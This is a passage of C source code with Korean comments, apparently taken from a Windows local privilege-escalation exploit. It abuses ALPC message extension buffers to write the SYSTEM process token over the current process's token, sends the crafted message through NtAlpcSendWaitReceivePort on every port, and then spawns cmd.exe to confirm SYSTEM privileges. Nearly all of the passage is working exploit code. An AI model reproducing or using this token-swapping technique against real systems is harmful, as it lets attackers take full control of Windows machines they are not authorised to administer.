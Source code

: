 ```c
// ----------------------------------------
// [1] system EPROCESS로부터 읽어온 system 토큰(ullToken)을
//     현재 프로세스의 EPROCESS + tokenOffset 위치에 덮어쓰도록 ALPC 구조체 조작
// ----------------------------------------
g_message->ExtensionBuffer     = (BYTE*)ullEPROCaddr + tokenOffset;
g_message->ExtensionBufferSize = 8;

ULONG DataLength = 8;
memset(alpcMessage, 0, sizeof(ALPC_MESSAGE));

// ALPC 메시지 헤더 세팅
alpcMessage->PortHeader.u1.s1.DataLength  = DataLength;
alpcMessage->PortHeader.u1.s1.TotalLength = sizeof(PORT_MESSAGE) + DataLength;
alpcMessage->PortHeader.MessageId         = (ULONG)g_hResource;

// 실제로 덮어쓸 데이터(= system 토큰 값) 설정
ULONG_PTR* pAlpcMsgData = (ULONG_PTR*)((BYTE*)alpcMessage + sizeof(PORT_MESSAGE));
pAlpcMsgData[0] = ullToken;  // system 토큰

// 모든 ALPC 포트에 대해 NtAlpcSendWaitReceivePort() 호출
// → g_message->ExtensionBuffer가 가리키는 위치(현재 프로세스 Token)에
//    system 토큰 값(ullToken)을 기록하여 토큰 교체
for (int i = 0; i < g_portCount; i++) {
    NtAlpcSendWaitReceivePort(
        g_ports[i],
        ALPC_MSGFLG_NONE,
        (PPORT_MESSAGE)alpcMessage, 
        NULL,
        NULL,
        NULL,
        NULL,
        NULL
    );
}

// ----------------------------------------
// [2] 최종적으로 SYSTEM 권한 획득 확인을 위해 cmd.exe 실행
// ----------------------------------------
STARTUPINFO StartupInfo = {0};
PROCESS_INFORMATION ProcessInformation = {0};

BOOL result = CreateProcess(
    L"C:\\Windows\\System32\\cmd.exe",
    NULL,
    NULL,
    NULL,
    FALSE,
    CREATE_NEW_CONSOLE,
    NULL,
    NULL,
    &StartupInfo,
    &ProcessInformation
);

if (result == FALSE) {
    printf("[-] Error\n");
    return FALSE;
}
```

